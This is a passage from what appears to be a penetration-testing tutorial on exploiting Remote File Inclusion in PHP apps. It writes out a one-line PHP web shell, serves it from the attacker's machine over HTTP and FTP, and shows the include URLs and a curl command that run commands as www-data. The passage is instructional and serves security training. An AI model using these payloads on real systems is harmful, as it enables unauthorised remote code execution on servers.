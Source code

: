 <p>The first step in gaining remote code execution is creating a malicious script in the language of the web application, PHP in this case. We can use a custom web shell we download from the internet, use a reverse shell script, or write our own basic web shell as we did in the previous section, which is what we will do in this case:</p>
<pre><code class="language-shell-session">[!bash!]$ echo '&lt;?php system($_GET["cmd"]); ?&gt;' &gt; shell.php
</code></pre>
<p>Now, all we need to do is host this script and include it through the RFI vulnerability. It is a good idea to listen on a common HTTP port like <code>80</code> or <code>443</code>, as these ports may be whitelisted in case the vulnerable web application has a firewall preventing outgoing connections. Furthermore, we may host the script through an FTP service or an SMB service, as we will see next.</p>
<h2>HTTP</h2>
<p>Now, we can start a server on our machine with a basic python server with the following command, as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo python3 -m http.server &lt;LISTENING_PORT&gt;
Serving HTTP on 0.0.0.0 port &lt;LISTENING_PORT&gt; (http://0.0.0.0:&lt;LISTENING_PORT&gt;/) ...
</code></pre>
<p>Now, we can include our local shell through RFI, like we did earlier, but using <code>&lt;OUR_IP&gt;</code> and our <code>&lt;LISTENING_PORT&gt;</code>. We will also specify the command to be executed with <code>&amp;cmd=id</code>:
<img alt="Shipping containers and cranes at a port with user data information displayed." class="website-screenshot" data-url="http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=http://&lt;OUR_IP&gt;:&lt;LISTENING_PORT&gt;/shell.php&amp;cmd=id" src="/storage/modules/23/rfi_localhost.jpg"/></p>
<p>As we can see, we did get a connection on our python server, and the remote shell was included, and we executed the specified command:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo python3 -m http.server &lt;LISTENING_PORT&gt;
Serving HTTP on 0.0.0.0 port &lt;LISTENING_PORT&gt; (http://0.0.0.0:&lt;LISTENING_PORT&gt;/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Tip:</b> We can examine the connection on our machine to ensure the request is being sent as we specified it. For example, if we saw an extra extension (.php) was appended to the request, then we can omit it from our payload</p>
</div>
</div>
<h2>FTP</h2>
<p>As mentioned earlier, we may also host our script through the FTP protocol. We can start a basic FTP server with Python's <code>pyftpdlib</code>, as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo python -m pyftpdlib -p 21

[SNIP] &gt;&gt;&gt; starting FTP server on 0.0.0.0:21, pid=23686 &lt;&lt;&lt;
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
</code></pre>
<p>This may also be useful in case http ports are blocked by a firewall or the <code>http://</code> string gets blocked by a WAF. To include our script, we can repeat what we did earlier, but use the <code>ftp://</code> scheme in the URL, as follows:
<img alt="Shipping containers and cranes at a port with user data information displayed." class="website-screenshot" data-url="http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=ftp://&lt;OUR_IP&gt;/shell.php&amp;cmd=id" src="/storage/modules/23/rfi_localhost.jpg"/></p>
<p>As we can see, this worked very similarly to our http attack, and the command was executed. By default, PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ curl 'http://&lt;SERVER_IP&gt;:&lt;PORT&gt;/index.php?language=ftp://user:pass@localhost/shell.php&amp;cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</code></pre>
<h2>SMB</h2>